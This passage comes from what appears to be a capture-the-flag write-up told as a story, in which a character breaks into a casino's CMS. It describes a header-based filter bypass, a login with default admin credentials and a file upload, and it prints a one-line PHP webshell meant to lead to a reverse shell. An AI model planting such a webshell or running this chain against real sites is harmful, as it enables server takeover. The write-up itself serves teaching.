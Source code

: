 ```
```
# 

#### (( Note From the Author: You don't actually have to access any place physically. The true answer lies in using the X-Remote-Addr header as demonstrated in the script above. That will bypass the filter. But for the context of the story, it was more dramatic this way.))
![dogpy 1](https://user-images.githubusercontent.com/73745039/105640505-5af3a180-5e76-11eb-89ed-0559116873cb.png)
![image](https://user-images.githubusercontent.com/73745039/105640563-b756c100-5e76-11eb-98e6-3cfe9120bbe6.png)


Bingo! It seems that his guess wasn't all that wrong afterall. An impossible number for this wheel revealed a secret path for him to follow.
Rondons cast a look around, making sure that no one could see him still. He hardly enjoyed having to continue this within the casino grounds, but with the terminal in his hands, he continued: First, he tried this new path on the spin the wheel page. But it revealed nothing.
### Fortunately, there was another page for him to try: The one running on port 80. The one with the odd quote. He went there and- Voilà! That's where the secret path needed to be inputted.

![mara1](https://user-images.githubusercontent.com/73745039/105640750-7f9c4900-5e77-11eb-849b-31e943ea37ca.png)

A CMS (Content Management System). A computer software which uses a database to -as the name implies- manage content, It's something akin to wordpress. Rondons figured this is where the illegal stuff was happening... though any trace might have already been deleted.
#### Searching around a bit on the page he spotted a Sitemap. It's perfect to find all kinds of pages; specifically he could find the version of this software which can sometimes be useful to search for exploits. Even more damming though, he found a login portal with default credentials for its administrative account.
Such a rookie mistake... then again, maybe these guys never expected anyone who wasn't supposed to to get here.

![mara2](https://user-images.githubusercontent.com/73745039/105640816-ff2a1800-5e77-11eb-8017-6dea7feb46eb.png)
![mara3](https://user-images.githubusercontent.com/73745039/105640820-04876280-5e78-11eb-90b9-65de080cc905.png)

A smirk crossed Rondon's lips as he got access to the admin acount on the website. Now all he needed to do was to find somewhere vulnerable on the website where he could upload a reverse shell. A reverse shell would be a way for him to get into the system that was running the server itself. A bit more looking around and he found a place where he could upload files that would become new webpages. It was somewhat restricted in the size of what he could upload, but he knew of a simple webshell that he could use to then get a proper reverse shell.
```
<?php echo passthru($_GET['cmd']) ?> 
```
### This simple php reverse shell would allow him to pass commands onto the page itself. It was limited, but it would enable him to then get a proper reverse shell.

